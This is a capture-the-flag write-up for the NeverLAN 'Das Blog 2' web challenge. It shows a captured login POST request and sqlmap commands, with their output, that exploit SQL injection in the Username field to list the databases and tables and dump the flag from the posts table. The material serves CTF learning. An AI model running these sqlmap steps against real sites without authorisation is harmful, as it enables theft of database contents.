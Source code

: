 # Das Blog 2 (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

## Challenge solution

This challenge is basically the same as `Das blog 1`, except when we login the flag is not there. This means the flag is probably hidden in the database. We can use the sql injection to dump the database with `sqlmap`.

First I save the POST request to a text file which we will then use in sqlmap.

```
POST https://challenges.neverlanctf.com:1130/login.php? HTTP/1.1
Host: challenges.neverlanctf.com:1130
Connection: keep-alive
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Origin: https://challenges.neverlanctf.com:1130
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/71.0.3578.98 Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://challenges.neverlanctf.com:1130/login.php?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=qc72d1v1nl3ufbj6b1bipqrdkv

Username=asd&Password=asd&submit=Login
```

```bash
$  sqlmap -r post.txt -p "Username"
```

![alt text](img/1.png "Chall")

We know it's vulnerable, let's dump the databases.

```bash
$ sqlmap -r post.txt -p "Username" --dbs
...
available databases [3]:                                                                                                                                                
[*] blog
[*] information_schema
[*] test
```

Dumping the tables

```bash
$ sqlmap -r post.txt -p "Username" --tables
Database: blog
[2 tables]
+---------------------------------------+
| posts                                 |
| users                                 |
+---------------------------------------+
```


Then we can dump the data of the table `posts`.

```
$ sqlmap -r post.txt -p "Username" --dump posts
...
    flag{Pwn3d_W1th_SQL}
...
```